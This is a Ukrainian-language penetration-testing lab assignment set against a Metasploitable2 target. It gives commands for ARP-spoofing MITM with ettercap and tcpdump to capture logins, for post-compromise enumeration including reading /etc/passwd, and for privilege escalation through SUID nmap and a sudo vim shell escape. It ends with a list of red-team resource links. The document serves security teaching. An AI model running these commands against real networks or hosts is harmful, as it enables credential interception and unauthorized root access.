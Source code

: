 # 🛡️ Lab 5: Мережа + підвищення

## 1. 🕵️‍♂️ MITM атака з Ettercap (ARP Spoofing)

### 🔹 Опис завдання:

Провести ARP Spoofing-атаку за допомогою `Ettercap`, перехопити трафік між атакованою машиною та шлюзом.

### 🔹 Кроки виконання:

1. Запусти `Ettercap` у графічному режимі або CLI:
   ```bash
   ettercap -T -M arp:remote /victim_ip/ /gateway_ip/
   ```
2. Визнач жертву (Metasploitable2) та шлюз (наприклад, роутер або Kali).
3. Запусти атаку, проаналізуй отримані пакети tcpdump -i eth0 host 192.168.0.0 -w dump.pcap - може вдастся перехопити облікові записи під час авторизації у локальний або публічний ресурс.

### 🔹 Що надати:

- Скріншоти конфігурації Ettercap
- Перехоплений логін/пароль (якщо вийде)
- Проблеми (наприклад: дублікати IP, захист OS)

---

## 2. 🧙‍♂️ Прихована розвідка з правами www-data

### 🔹 Опис завдання:

Після компрометації вебсервера (наприклад, через LFI або RCE), дослідити систему з правами `www-data`.

### 🔹 Цілі:

- Знайти користувачів
- Перевірити доступні конфіги
- Зібрати інформацію про процеси та мережу
- Передивитись історію і можливі запущені процеси та права на них

### 🔹 Команди:

```bash
whoami
id
cat /etc/passwd
ps aux
netstat -tulpan
find / -type f -name '*.conf' 2>/dev/null
```

### 🔹 Що надати:

- Скріншоти команд і виводу
- Виявлені цікаві конфіги або хардкод-паролі

---

## 3. 🔓 Підвищення привілеїв через SUID

### 🔹 Опис завдання:

Знайти бінарники з правами SUID і використати їх для отримання доступу до root.

### 🔹 Пошук:

```bash
find / -perm -4000 -type f 2>/dev/null
```

### 🔹 Популярні вектори:

- `/bin/bash`
- `/usr/bin/nmap`
- `/usr/bin/find`
- `/usr/bin/python`

### 🔹 Приклад експлуатації:

```bash
# для nmap
nmap --interactive
!sh
```

### 🔹 Що надати:

- Список знайдених SUID
- Метод експлуатації
- Доказ root-доступу (`whoami`)

---

## 4. 🧨 Підвищення прав через sudoers

### 🔹 Опис завдання:

Перевірити доступні sudo-команди для поточного користувача.

### 🔹 Команди:

```bash
sudo -l
```

### 🔹 Якщо доступно щось типу:

```bash
(root) NOPASSWD: /usr/bin/vim
```

### 🔹 Використати:

```bash
sudo vim -c '!sh'
```

### 🔹 Що надати:

- Результат `sudo -l`
- Команди експлуатації
- `id`/`whoami` як root

---

## 📋 Ресурси для Red Team та Pentest перевірок

### 🔹 Чеклісти та гіди:

- [Vulnerability dictionary](https://www.cobalt.io/vulnerability-wiki/v5-validation-sanitization)
- [Awesome-Hacking](https://github.com/Hack-with-Github/Awesome-Hacking)
- [Certified Red Team Professional (CRTP)](https://dev-angelist.gitbook.io/crtp-notes)
- [HackTricks](https://book.hacktricks.wiki/en/welcome/about-the-author.html)
- [Pentest Book](https://pentestbook.six2dez.com/enumeration/ports)
- [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/)
- [Application Security Cheat Sheet](https://0xn3va.gitbook.io/cheat-sheets/)
- [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/index.html)
- [PENTESTING-BIBLE](https://github.com/oxfemale/PENTESTING-BIBLE)
- [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/)
- [CSbyGB's Pentips](https://csbygb.gitbook.io/pentips)
- [Pentration Testing, Beginners To Expert!](https://github.com/xalgord/Massive-Web-Application-Penetration-Testing-Bug-Bounty-Notes)
- [Offensive Security Cheatsheet](https://cheatsheet.haax.fr/)
- [HighOn.Coffee](https://highon.coffee/blog/)
- [Red Team Guides](https://redteam.guide/docs/guides/)
- [Cyber-Bookmarks](https://x0rb3l.github.io/Cyber-Bookmarks/bookmarks.html)
- [IT-Security](https://sushant747.gitbooks.io/total-oscp-guide/content/)

---

## 📋 Ресурси для бінарних файлів

- [GTFOBins](https://gtfobins.github.io/)
- [LOLBAS](https://lolbas-project.github.io/)
- [GTFOArgs](https://gtfoargs.github.io/)

---

✅ **Результати надати у вигляді скріншотів із короткими поясненнями:**

- Що виконано
- Які проблеми виникли (якщо були)
- Який результат досягнуто

